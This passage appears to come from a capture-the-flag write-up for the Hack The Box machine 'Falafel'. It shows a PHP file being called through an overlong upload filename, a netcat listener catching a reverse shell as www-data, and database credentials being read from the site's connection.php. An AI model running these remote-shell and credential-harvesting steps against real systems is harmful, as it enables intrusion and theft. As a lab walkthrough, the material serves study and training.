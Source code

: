 
Based on the response, I think I can access to the upload php file with the following URL :
`http://10.10.10.73/uploads/0307-1125_1a0bee8003ca42b4/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php`
(Needs to set listener ahead)

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ curl http://10.10.10.73/uploads/0307-1125_1a0bee8003ca42b4/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

Then, soon the listener spawns the shell.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.73] 51174
Linux falafel 4.15.0-213-generic #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 11:28:24 up  3:14,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1     -                08:14    3:14m  0.02s  0.02s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```



# Shell as `moshe`

### Enumeration

First, let's check web root directory.

```bash
www-data@falafel:/var/www/html$ ls
ls
assets          cyberlaw.txt  images     login_logic.php  style.php
authorized.php  footer.php    index.php  logout.php       upload.php
connection.php  header.php    js         profile.php      uploads
css             icon.png      login.php  robots.txt

www-data@falafel:/var/www/html$ cat connection.php
cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```
